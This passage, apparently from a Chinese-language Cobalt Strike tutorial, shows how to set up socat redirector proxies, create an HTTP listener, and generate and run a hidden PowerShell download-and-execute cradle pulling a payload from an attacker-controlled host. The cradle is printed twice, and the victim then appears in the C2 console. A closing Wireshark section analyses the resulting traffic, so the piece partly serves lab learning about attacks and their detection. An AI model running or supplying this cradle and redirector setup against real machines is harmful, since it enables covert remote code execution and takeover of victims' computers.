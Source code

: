 > 将本机80端口监听到的数据转发到server服务器上的80端口



在两台代理服务器(ubuntu0和ubuntu1)上输入: `socat TCP4-LISTEN:80,fork TCP4:192.168.47.134:80`	

![动画](CobaltStrike的使用教程/动画-16646283744081.gif)



## 攻击步骤

### 1.在CS客户端创建监听并生成攻击payload

在域内windows7主机登录CS客户端

<img src="CobaltStrike的使用教程/image-20221001205953398.png" alt="image-20221001205953398" style="zoom:50%;" />	



新建http监听80端口, 将代理的服务器域名填写至HTTP Hosts

<img src="CobaltStrike的使用教程/image-20221001224449443.png" alt="image-20221001224449443" style="zoom:67%;" />	



生成Power Shell远程执行代码: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://proxy1.team.com:80/a'))"`

![动画](CobaltStrike的使用教程/动画-16646361660073.gif)

​	

浏览器访问`http://proxy1.team.com:80/a`和`http://proxy2.team.com:80/a`, 查看是否有返回结果, 若有则表示攻击payload配置成功

![image-20221001230039340](CobaltStrike的使用教程/image-20221001230039340.png)	



通过查看web日志可以查询到访问域名者的详细信息

![image-20221001230512699](CobaltStrike的使用教程/image-20221001230512699.png)



### 2.受害机执行PowerShell恶意代码

在受害机执行powershell恶意代码: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://proxy1.team.com:80/a'))"`后, 受害机在CS客户端界面显示上线

<img src="CobaltStrike的使用教程/image-20221002003244133.png" alt="image-20221002003244133" style="zoom: 50%;" />	



## 受害机抓包分析

使用Wireshark抓取HTTP数据包进行分析, 受害机的ip地址为`192.168.47.141`, 它向`192.168.47.140`(proxy2.team.com)发http数据包, 随后`192.168.47.140`向`192.168.47.134`(cs.team.com)发http数据包, 除此之外受害机还向`192.168.47.131`(proxy1.team.com)发了http数据包
